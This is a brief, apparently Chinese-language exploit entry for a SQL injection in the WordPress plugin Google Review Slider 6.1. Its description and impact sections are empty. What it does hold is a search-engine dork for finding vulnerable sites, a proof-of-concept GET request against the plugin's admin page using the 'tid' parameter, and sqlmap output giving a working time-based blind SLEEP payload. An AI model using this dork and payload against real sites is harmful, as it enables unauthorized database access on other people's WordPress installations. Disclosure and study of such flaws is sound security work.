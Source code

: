 WordPress Plugin - Google Review Slider 6.1 SQL Injection
=========================================================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

inurl:\"/wp-content/plugins/wp-google-places-review-slider/\"

POC :

     GET/wp-admin/admin.php?page=wp_google-templates_posts&tid=1&_wpnonce=***
     &taction=edit HTTP/1.1

sqlmap result

    sqlmap identified the following injection point(s) with a total of 62 HTTP(s) requests:
    ---
    Parameter: tid (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: page=wp_google-templates_posts&tid=1 AND (SELECT 5357 FROM
    (SELECT(SLEEP(5)))kHQz)&_wpnonce=***&taction=edi
